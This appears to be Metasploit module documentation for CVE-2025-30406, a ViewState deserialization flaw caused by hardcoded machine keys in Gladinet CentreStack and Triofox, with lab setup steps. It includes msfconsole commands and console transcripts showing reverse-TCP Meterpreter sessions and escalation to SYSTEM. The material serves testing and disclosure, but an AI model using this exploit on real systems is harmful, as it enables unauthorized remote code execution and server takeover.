 ## Vulnerable Application
A vulnerability in Gladinet CentreStack and Triofox application using hardcoded cryptographic keys for ViewState
could allow an attacker to forge ViewState data.
This can lead to unauthorized actions such as remote code execution.
Both applications make use of a hardcoded machineKey in the IIS web.config file, which is responsible for securing
ASP.NET ViewState data. If an attacker obtains the machineKey, they can forge ViewState payloads that pass integrity checks.
This can result in ViewState deserialization attacks, potentially leading to remote code execution (RCE) on the web server.

* Gladinet CentreStack versions up to 16.4.10315.56368 are vulnerable (fixed in 16.4.10315.56368).
* Gladinet Triofox versions up to 16.4.10317.56372 are vulnerable (fixed in 16.4.10317.56372)

The following releases were tested.

**Gladinet CentreStack and Triofox:**
* Gladinet CentreStack Build 16.1.10296.56315 on Windows Server 2019
* Gladinet Triofox Build 16.1.10296.56315 on Windows Server 2019

## Installation steps to install Gladinet CentreStack or Triofox Enterprise Editions
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Download an evaluation Windows Server iso image (2016, 2019 or 2022) and install it as a VM on your virtualization engine.
* Note: Google is your best friend on how to do this ;-)
* Download the [Gladinet CentreStack gui installer](https://www.centrestack.com/p/gce_latest_release.html) or...
* Download the [Gladinet Triofox gui installer](https://access.triofox.com/releases_history/).
* Note: For Triofox, you will need a free trail account to reach the installer page.
* Run the gui installer on your Windows VM.
* Reboot your VM and you should be able to access the application via `https://your_ip/portal/loginpage.aspx`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/windows/http/gladinet_viewstate_deserialization_cve_2025_30406`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Windows Command>`
- [ ] `exploit`
- [ ] you should get a `shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options defined for this module.

## Scenarios
### Gladinet CentreStack Build 16.1.10296.56315 on Windows Server 2019 -  Windows Command target
```msf
msf6 > use exploits/windows/http/gladinet_viewstate_deserialization_cve_2025_30406
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/gladinet_viewstate_deserialization_cve_2025_30406) > set rhosts 192.168.201.5
rhosts => 192.168.201.5
msf6 exploit(windows/http/gladinet_viewstate_deserialization_cve_2025_30406) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. CentreStack (Build 16.1.10296.56315)
[*] Executing Windows Command for cmd/windows/http/x64/meterpreter/reverse_tcp
[*] Sending stage (203846 bytes) to 192.168.201.5
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.5:49897) at 2025-05-02 20:36:56 +0000

meterpreter > getuid
Server username: IIS APPPOOL\portal
meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
###  Gladinet Triofox Build 16.1.10296.56315 on Windows Server 2019 - Windows Command target
```msf
msf6 exploit(windows/http/gladinet_viewstate_deserialization_cve_2025_30406) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(windows/http/gladinet_viewstate_deserialization_cve_2025_30406) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Triofox (Build 16.1.10296.56315)
[*] Executing Windows Command for cmd/windows/http/x64/meterpreter/reverse_tcp
[*] Sending stage (203846 bytes) to 192.168.201.6
[*] Meterpreter session 4 opened (192.168.201.8:4444 -> 192.168.201.6:56815) at 2025-05-02 19:55:59 +0000

meterpreter > getuid
Server username: IIS APPPOOL\portal
meterpreter > sysinfo
Computer        : WIN-HHRQENPDSRS
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : EVIL
Logged On Users : 14
Meterpreter     : x64/windows
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
## Limitations
No limitations identified.
